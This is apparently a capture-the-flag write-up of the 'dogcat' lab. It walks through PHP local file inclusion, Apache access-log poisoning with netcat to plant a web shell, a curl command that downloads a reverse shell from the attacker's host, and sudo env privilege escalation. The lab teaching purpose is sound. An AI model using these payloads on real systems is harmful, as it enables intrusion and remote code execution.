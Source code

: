 DOGCAT
===
- [x] FLAG1

First, I press F12 want to find any clue, but I don'y find.  
Seccond, I press DOG and CAT button, I got a lot cute picture, and I know **view** only allow dog or cat word.
![image](https://user-images.githubusercontent.com/67756786/195544351-dca3ecb7-941a-4f6d-b731-c2a414ddc0cb.png)

Now I try **php wraper** to take web code.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog
```

Got a text base on base64.
![image](https://user-images.githubusercontent.com/67756786/195545334-346cbd14-f4cd-4693-a74c-26a52680e9f3.png)

Decode, and then we know cute picture will be readomly picked out of ten.

![image](https://user-images.githubusercontent.com/67756786/195545544-018317ee-f418-41e9-956d-fdaac5b585d7.png)

Now, we try to take /etc/passwd

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd
```
First warring message is talk about path error, and it show us path is dog/../../../../etc/passwd.php.
Obviously, web code should be **include(_GET(view).php)**

![image](https://user-images.githubusercontent.com/67756786/195548462-a80629d6-aa6b-4645-b9ac-78ab62662eba.png)

We use %00 to comment that.
Path is correct but still got error.
![image](https://user-images.githubusercontent.com/67756786/195550444-82fc62ef-cd2c-4f00-ae25-ae96617249cc.png)

Now we need to know that the web how to write.

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../index
```
![image](https://user-images.githubusercontent.com/67756786/195551181-9ca38a4e-946e-4e4f-a94f-7ac00307154e.png)

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

According to index.php source code, we know we have two variable , and we can use GET to change them. 
One of variable, ext, it's default value is .php,No wonder we use /etc/passwd to LFI will get error.

Now we need check /etc/passwd again.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext=
```
work!
![image](https://user-images.githubusercontent.com/67756786/195553839-b10f7fb6-023f-4d19-9844-9ffe524981b8.png)

Then we need to find where can excute RCE vulnerable.  
First, confirm what web server

![image](https://user-images.githubusercontent.com/67756786/195554515-62f65ee8-f2d2-4730-b4f6-4a17e62a6bbf.png)

Second, confirm where apache log file
![image](https://user-images.githubusercontent.com/67756786/195555607-9db42cbd-a824-4ea2-8e19-c1785156e75b.png)

Finaly, try to got apache access.log
```
http://10.10.162.32//?view=dog/../../../../var/log/apache2/access&ext=.log
```
Work, nice!
![image](https://user-images.githubusercontent.com/67756786/195556701-5a70e822-e099-4857-9d17-e43fd7adffd4.png)

Now we try access.log can injection or not.
```
echo -e "GET <?php phpinfo(); ?>"| nc 10.10.162.32 80
```
Work
![image](https://user-images.githubusercontent.com/67756786/195557135-6a978839-dad3-4fdd-a902-765dc8206e2f.png)

Now I want put web shell into that.
```
echo -e "GET <?php if(isset($_GET['cmd']))  {  system($_GET['cmd']);  }?>" | nc 10.10.162.32 80
```
But I got this error message, and then I reboot target machine.
![image](https://user-images.githubusercontent.com/67756786/195541111-f95d8e1f-1e61-4993-8f85-7c2c0fa74aa2.png)

And then I think that I just want to print result of excution, after that I change my RCE code.

```
 echo -e "<?php system(\$_GET[B]); ?>" | nc 10.10.142.129 80
```

Success!
![image](https://user-images.githubusercontent.com/67756786/195745918-9ef79f1d-3981-4432-8764-c8382e9c0e56.png)

Now we need to uplode php reverse shell and excute it.  
First, uploade php revere shell, we can use python http server and use curl dowload reverse shell.
Second, excute this reverse shell.
php reverse shell(https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
If you reverse shell is ready, we can open python http server
![image](https://user-images.githubusercontent.com/67756786/195754923-4cc04d9b-d523-4f31-902c-e1e562060afb.png)

After, we dowload and excute that.  
Dowload
```
http://10.10.142.129/?ext=&view=dog/../../../../var/log/apache2/access.log&B=curl -o /var/www/html/s.php%20http://10.10.180.17/shell.php
```
Excute
```
http://10.10.142.129/?view=dog/../s
```
But, got a error message, seem to be not use this method.

![image](https://user-images.githubusercontent.com/67756786/195755156-0699cb87-02fe-46af-a4b0-3a09d01d1eb2.png)

One day ago, I conscious my dowload URL is error, default port of python http server is 8000.  
Later, I do it again, same method, and work!

revereshell
![image](https://user-images.githubusercontent.com/67756786/195756571-aa5bc548-2fcc-4a9c-a1e6-e935aef44fcd.png)

Now, we need to got four flag! I will use `find` to search flag

```
find * -name flag*
```

![image](https://user-images.githubusercontent.com/67756786/195767056-726c156b-0903-4424-9604-1396ff6c6123.png)

and open that.

![image](https://user-images.githubusercontent.com/67756786/195767322-991d0302-a03d-4ac1-b2b5-c240764b1bea.png)


- [x] FLAG2

![image](https://user-images.githubusercontent.com/67756786/195767344-8ca50948-1b04-47c2-bf49-1986efa95617.png)

- [x] FLAG3

Usually, one of flag will be on the root dictory,and then we confirm www_data to can be root or not.
```
sudo -l
```
![image](https://user-images.githubusercontent.com/67756786/195769614-9a3adb49-accb-4f09-8af0-1507d7717aaa.png)

GTFOBins have privilege escalation method by env

![image](https://user-images.githubusercontent.com/67756786/195769742-863b904a-d754-4b83-ba55-24c5c3f5ae07.png)

![image](https://user-images.githubusercontent.com/67756786/195769806-8fe8bd4c-866b-4219-944f-d3ddfd1b566e.png)

flag3 into /root dictory

![image](https://user-images.githubusercontent.com/67756786/195770951-3eaf770f-00a9-4264-a973-da4db5812396.png)


- [x] FLAG4

